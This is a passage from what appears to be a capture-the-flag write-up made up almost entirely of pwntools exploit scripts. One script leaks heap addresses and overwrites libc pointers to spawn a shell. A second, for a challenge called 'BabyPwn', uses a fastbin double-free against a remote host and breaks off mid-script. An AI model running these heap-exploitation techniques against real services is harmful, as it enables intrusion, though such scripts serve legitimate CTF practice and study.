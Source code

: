 ```python=
  show("","")
  r.recvuntil("8 : 48 (")
  heap = u64(r.recv(6).ljust(8,"\x00")) - 0xa41
  print("heap = {}".format(hex(heap)))
  add(1,1,"A")
  add(1,1,"A")
  add(2,1,"A")
  for i in xrange(8):
    add(0x40+i,0x50,"sh\x00")
  add(8,0x10,p64(libc + 0x3ed8e8))
  add(8,0x10,"A")
  add(9,0x10,p64(libc + 0x4f440))
  r.recvuntil(": ")
  r.sendline("1")
  r.recvuntil(": ")
  r.sendline("1")
  time.sleep(0.1)
  r.sendline("ls")
  
  r.interactive()


```




### BabyPwn
probability of 1/16

```pyhton=
from pwn import *

#r = process(["./BabyPwn"])
r = remote("124.156.209.69", 9999)
def add(name,size,content):
	r.sendafter(":","1\x00")
	r.sendafter(":",name)
	r.sendafter(":",str(size)+"\x00")
	r.sendafter(":",content)

def remove(idx):
	r.sendafter(":","2\x00")
	r.sendafter(":",str(idx)+"\x00")

add("a",0x60,"a")
add("a",0x60,"a")
remove(0)
remove(1)
remove(0)
add("a",0x60,p64(0x60203d))
add("a",0x60,"a")
add("a",0x60,"a")
add("a",0x60,"a"*3+p64(0)+p64(0x51)+p64(0)+p64(0x602060)+p64(0x602058)+p64(0)*6+p64(0x21))
remove(2)


add("a",0x60,"a")
add("a",0xc0,"a")
add("a",0x60,"a")
add("a",0x60,"a")
remove(3)
#val = int(raw_input(":"),16)
val = 0xa
val = val*0x1000+0x5dd
```